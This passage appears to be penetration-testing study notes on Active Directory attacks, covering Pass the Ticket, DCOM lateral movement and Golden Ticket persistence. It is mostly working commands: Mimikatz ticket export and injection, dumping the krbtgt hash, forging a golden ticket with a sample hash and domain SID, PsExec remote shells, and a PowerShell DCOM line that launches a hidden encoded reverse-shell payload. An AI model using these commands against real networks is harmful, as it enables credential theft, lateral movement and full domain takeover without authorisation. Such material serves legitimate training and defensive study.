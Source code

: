 	- `PS> klist`  -> Check if TGT for `<username>` is created
	- `PS> net use \\files04` → On accessing any host will create suitable TGS Ticket
	- `PS> .\PsExec.exe \\files04 cmd` → Can also get terminal for any host
- **Pass the Ticket**
    - Requirement – Some user whose TGS is in memory should have access to required resource.
	- We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.
	- The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.
	- In this scenario, `dave` user has privileged access to backup folder located on `WEB04`, where our logged in user `jen` doesn't.
        - `Mimikatz> privilege::debug`
		- `Mimikatz> sekurlsa::tickets /export`
            - dave has TGT, and on export will create `*.kirbi` files (TGS ticket) for all accessible resources
		- `Mimikatz> kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi` 
			- Pick any TGS ticket in `dave@cifs-web04.kirbi` format and inject in current user session i.e. `jen`
		- `PS> klist`  -> Check if ticket is imported
		- `PS> ls \\web04\backup` -> Accessible now
- **DCOM (Distributed Component Object Model)**
    - Requirements – Local administrator access to call the DCOM Service Control Manager, which is essentially an API.
	- This method allows execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.
	- Powershell script
	```
	$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP>")) 
	$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop –w hidden –e <base64-encoded-revshell-payload>","7")
	```
#### AD Persistence
- **Golden Ticket**
	- Requirements - krbtgt password hash
	- If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.
	- While Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets give us permission to access the entire domain’s resources. Once TGT is created, the owner user, even non-privileged user, can be stated as member of Domain Admins group.
	- SPN password hash
        - `Mimikatz> privilege::debug`
		- `Mimikatz> lsadump::lsa /patch`
            - `iis_krbtgt:4d28cf5252d39971419580a51484ca09`
			- Can also get domain SID here  → `S-1-5-21-1987370270-658905905-1781884369`
	- Domain SID
        - `whoami /user` → `S-1-5-21-1987370270-658905905-1781884369`
	- Golden Ticket
        - `Mimikatz> kerberos::purge`  → current session tickets purged
		- `Mimikatz> kerberos::golden /domain:<domain> /user:<username> /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:4d28cf5252d39971419580a51484ca09 /ptt`
            - `/ptt` -> inject the forged ticket into the memory of the machine we execute the command on.
			- Our user ID is set to 500 by default, which is the RID of the built-in administrator for the domain, while the values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group.
        - `PS> klist` → Ticket list will contain new TGT ticket.
        - `Mimikatz> misc::cmd`  → Launched new command prompt as `<username>` stated as part of Domain Admins group.
        - `PS> .\PsExec64.exe \\DC1 cmd.exe` -> Alternative to launch command prompt
- **Shadow Copies**
    - If we get access to DC, get a Shadow Copy to get credentials of all users in all systems
	- A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.